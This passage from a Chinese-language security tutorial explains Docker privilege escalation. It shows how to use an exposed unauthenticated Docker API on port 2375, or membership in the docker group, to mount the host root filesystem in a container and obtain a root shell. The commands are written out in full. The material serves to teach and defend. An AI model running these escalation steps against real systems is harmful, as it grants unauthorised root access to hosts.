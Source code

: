 2.这里直接上操作

```php
#连接2375端口
export DOCKER_HOST="tcp://127.0.0.1:2375"
#创建挂载宿主机根目录的容器
docker run --rm -it --privileged -net=host -v /: /tmp/docker alpine
cd /tmp/docker
#通过chroot 切换bash
chroot ./ bash
```

其实和第一种方法差别不大,无非是使用了export进行连接

值得一提的是:我们还可以关注2376端口

2375端口-->未加密

2376端口-->加密通讯

## Docker用户组特性导致的权限提升

我们都知道Docker 需要 root 权限才能跑起来,其运行的所有命令都是需要 sudo 来运行，。而Docker 监护进程有一个特性，它能被允许访问 root 用户或者是在 docker 组里面的所有用户，这就如同拥有 root 的访问权限

简而言之,如果我们拿到了一个docker组内用户的权限,就可以提升到root权限

这是因为Docker 守护进程会允许 root 用户和 docker组用户访问 Docker，给用户提供 Docker 权限和给用户无需认证便可以随便获取的 root 权限差别不大

环境搭建:创建一个普通用户并且进入docker组

```php
adduser dockeruser
usermod -G docker dockeruser
newgrp docker
su dockeruser
```

![](assets/1703484795-76abf016c5a55c8b160b9ca6f115cd0f.png)

接下来我们以dockeruser的身份启动一个容器-->一个挂载了宿主机根目录的容器

```php
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```

![](assets/1703484795-43d72b51adc51abda8a8c5b0529d8aa1.png)
